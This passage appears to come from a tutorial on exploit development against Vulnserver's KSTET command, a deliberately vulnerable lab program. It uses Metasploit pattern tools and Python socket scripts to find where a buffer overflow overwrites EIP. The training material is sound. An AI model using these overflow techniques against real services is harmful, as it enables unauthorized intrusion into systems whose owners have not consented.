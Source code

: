 Ok, let’s start by checking the offset of the crash by creating a cyclic
pattern of 100 characters using `pattern_create.rb` tool from
Metasploit:

``` console
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

And update our exploit:

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```

And check it:

<div class="imgblock">

![Cyclic pattern](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331150/blog/vulnserver-kstet/offset1_gfntrn.gif)

</div>

As you can see, `EIP` was overwritten with `63413363`. We can check the
offset of that bytes on our cyclic pattern to get the offset on where
`EIP` gets overwritten:

``` console
$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
```

Now, check that offset by updating our exploit:

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    b'B' * 4 +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```
